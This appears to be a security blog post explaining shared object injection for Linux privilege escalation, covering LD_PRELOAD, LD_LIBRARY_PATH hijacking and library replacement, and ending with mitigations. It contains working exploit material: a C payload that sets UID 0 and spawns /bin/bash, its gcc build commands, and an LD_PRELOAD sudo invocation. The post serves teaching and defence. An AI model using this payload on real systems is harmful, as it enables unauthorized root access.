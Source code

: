```yaml
---
title: "Shared Object Injection"
description: 
date: 2025-01-26T13:50:55Z
image: /post/suid.jpg
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["Privesc","Linux","SUID"]
categories: ["Linux-Privilege-Escalation","SUID-Attacks"]
---
```


### **Shared Object Injection for Privilege Escalation**

**Shared Object (SO) injection** is a technique where an attacker forces a process to load a malicious shared library (.so file) into its memory. When executed, the malicious code in the library runs with the privileges of the target process, potentially leading to privilege escalation if the process has higher privileges (e.g., root).

---

### **How Shared Object Injection Works**

1. **Shared Libraries in Linux**:
    
    - Linux dynamically links shared libraries (`.so` files) at runtime.
    - Applications specify required libraries in their code, and the system's **dynamic linker** loads them when the application starts.
    
1. **Manipulating Library Loading**:
    
    - Attackers can exploit library loading mechanisms, such as modifying environment variables (`LD_PRELOAD`, `LD_LIBRARY_PATH`), or targeting programs that improperly handle library paths.
    
1. **Privilege Escalation**:
    
    - If an attacker can make a root-owned process load their malicious `.so` file, they can execute arbitrary code as root.

---

### **Techniques for Shared Object Injection**

#### 1. **Using `LD_PRELOAD`**:

- The `LD_PRELOAD` environment variable allows users to specify additional shared libraries to be loaded before any others.
- Exploit scenario:
    - A program with `sudo` permissions does not sanitize environment variables.
    - The attacker sets `LD_PRELOAD` to point to their malicious `.so` file.
- Example:
    
    ```bash
    echo 'void _init() { setuid(0); system("/bin/bash"); }' > exploit.c
    gcc -shared -fPIC -o exploit.so exploit.c
    LD_PRELOAD=./exploit.so sudo some-command
    ```
    

#### 2. **Hijacking `LD_LIBRARY_PATH`**:

- `LD_LIBRARY_PATH` specifies directories for the linker to search for shared libraries.
- Exploit scenario:
    - The attacker modifies `LD_LIBRARY_PATH` to include a directory containing malicious libraries.
- Example:
    
    ```bash
    export LD_LIBRARY_PATH=/tmp/malicious:$LD_LIBRARY_PATH
    ```
    

#### 3. **Replacing Legitimate Libraries**:

- Replace a shared library on the system with a malicious one.
- Exploit scenario:
    - Insufficient file permissions allow an attacker to overwrite a `.so` file used by a privileged program.

#### 4. **Dynamic Linking Exploits**:

- Exploit applications that dynamically load libraries during execution using functions like `dlopen()` or `dlsym()`.

---

### **Example: Privilege Escalation Using LD_PRELOAD**

1. **Create a Malicious Shared Object**:
    
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    void _init() {
        setuid(0);  // Set the UID to root
        system("/bin/bash");  // Spawn a root shell
    }
    ```
    
    Save this as `exploit.c` and compile:
    
    ```bash
    gcc -fPIC -shared -o exploit.so exploit.c
    ```
    
2. **Set LD_PRELOAD**:
    
    ```bash
    LD_PRELOAD=/path/to/exploit.so sudo some-command
    ```
    
3. **Result**: A root shell is spawned if the target process is vulnerable.
    

---

### **Mitigations Against SO Injection**

1. **Disable `LD_PRELOAD` for SUID Programs**:
    
    - Modern Linux systems ignore `LD_PRELOAD` for SUID binaries to prevent this type of attack.
2. **Restrict `LD_LIBRARY_PATH`**:
    
    - Limit the use of custom library paths in privileged programs.
3. **Secure File Permissions**:
    
    - Ensure shared libraries are owned by root and are not writable by unprivileged users.
4. **Use Static Linking**:
    
    - For critical programs, avoid dynamic linking altogether.
5. **Audit Programs**:
    
    - Identify and fix applications that dynamically load libraries without proper checks.
